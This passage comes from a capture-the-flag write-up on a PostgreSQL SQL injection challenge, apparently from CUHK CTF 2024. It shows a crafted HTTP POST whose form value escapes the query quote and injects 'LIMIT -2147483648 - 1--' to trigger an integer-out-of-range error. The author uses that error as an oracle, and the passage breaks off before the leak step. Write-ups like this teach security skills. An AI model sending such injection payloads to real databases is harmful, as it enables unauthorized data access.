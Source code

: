 > Note: If the plus character (`+`) is allowed, we can also do integer **overflow**.

Let's try this. According to [PostgreSQL numeric types documentation](https://www.postgresql.org/docs/8.1/datatype.html#DATATYPE-NUMERIC-TABLE), integer range is from -2147483648 to +2147483647.

So, what if we try to perform the following arithmetic operation, in which integer underflow will occur:

```http
POST /query HTTP/1.1
Host: chal.24.cuhkctf.org:24021
Content-Type: application/x-www-form-urlencoded
Content-Length: 32

value=\'+LIMIT+-2147483648+-+1--
```

Complete SQL query:

```sql
SELECT * FROM items WHERE name = E'\\' LIMIT -2147483648 - 1--'
```

> Note: The `LIMIT` clause is to make the syntax valid.

![](https://github.com/siunam321/CTF-Writeups/blob/main/CUHK-CTF-2024/images/Pasted%20image%2020241016135355.png)

Aye! It worked! As expected, the response now contains error message "**integer out of range**", because leveraged the integer underflow!

Now, how about the leaking condition?

